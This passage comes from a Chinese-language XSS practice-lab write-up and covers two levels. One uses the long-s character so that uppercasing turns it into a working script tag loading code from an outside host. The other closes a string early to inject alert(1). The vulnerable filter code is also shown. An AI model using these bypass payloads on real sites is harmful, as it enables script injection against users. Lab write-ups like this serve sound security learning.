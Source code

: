 

## 0x0E——古英语长s绕过字母大写且前加下划线的过滤

ſ

```
<ſcript src="http://sqlilabs.njhack.xyz/A.JS"></script>
```

![image-20220116115157020](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115157020.png)

```
[html]
<h1><SCRIPT SRC="HTTP://SQLILABS.NJHACK.XYZ/A.JS"></SCRIPT></h1>

[server code]
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```





## 0x0F——提前闭合绕过console、特殊字符过滤

```
');alert(1)//
```

因为console语法里允许使用已转化的一些关键字符

![image-20220116115217303](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115217303.png)
